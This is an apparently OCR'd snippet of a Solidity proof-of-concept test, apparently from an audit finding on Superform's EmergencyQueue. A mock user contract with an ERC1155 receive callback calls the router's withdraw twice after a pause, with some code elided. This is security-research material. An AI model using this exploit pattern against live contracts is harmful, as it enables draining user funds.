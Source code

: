 ```
        return bytes4(keccak256("onERC1155BatchReceived(address,address,uint256[],uint256[],bytes)"));
    }
}

// 2.change EmergencyQueueTest  test\unit\emergency\EmergencyQueue.t.sol

// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.23;

import "test/utils/ProtocolActions.sol";

import { KYCDaoNFTMock } from "test/mocks/KYCDaoNFTMock.sol";
import { ISuperRegistry } from "src/interfaces/ISuperRegistry.sol";
import { LayerzeroImplementation } from "src/crosschain-data/adapters/layerzero/LayerzeroImplementation.sol";
import "test/unit/emergency/mockUser.sol";


contract EmergencyQueueTest is ProtocolActions {
    /// our intended user who is a nice person
    address mrperfect;
    /// our users who is a friend of nice person that wants the refunds
    address mrimperfect;

    address morkUser;
    function setUp() public override {
        super.setUp();

        mrperfect = vm.addr(421);
        mrimperfect = vm.addr(420);
        morkUser = address(new MorkUser());
    }
		.....

function _withdrawAfterPause() internal {
        vm.selectFork(FORKS[ETH]);
        address payable router = payable(getContract(ETH, "SuperformRouter"));
        address superPositions = getContract(ETH, "SuperPositions");

        SingleVaultSFData memory data = SingleVaultSFData(
            _getTestSuperformId(),
            1e18,
            100,
            LiqRequest("", getContract(ETH, "DAI"), address(0), 1, ETH, 0),
            "",
            false,
            false,
            // mrimperfect,
            morkUser,
            ""
        );

        SingleDirectSingleVaultStateReq memory req = SingleDirectSingleVaultStateReq(data);

        vm.prank(morkUser);
        SuperPositions(superPositions).increaseAllowance(router, _getTestSuperformId(), 100e18);

        vm.prank(morkUser);
        SuperformRouter(router).singleDirectSingleVaultWithdraw(req);

        vm.prank(morkUser);
        SuperformRouter(router).singleDirectSingleVaultWithdraw(req);
```